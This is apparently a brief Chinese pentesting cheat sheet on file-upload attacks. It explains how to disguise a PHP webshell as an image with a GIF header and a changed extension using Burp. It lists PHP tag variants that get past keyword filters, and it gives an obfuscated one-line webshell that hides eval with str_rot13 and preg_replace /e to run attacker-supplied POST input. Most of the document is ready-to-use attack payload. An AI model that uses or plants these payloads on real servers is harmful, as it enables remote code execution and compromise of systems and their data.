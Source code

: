 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```




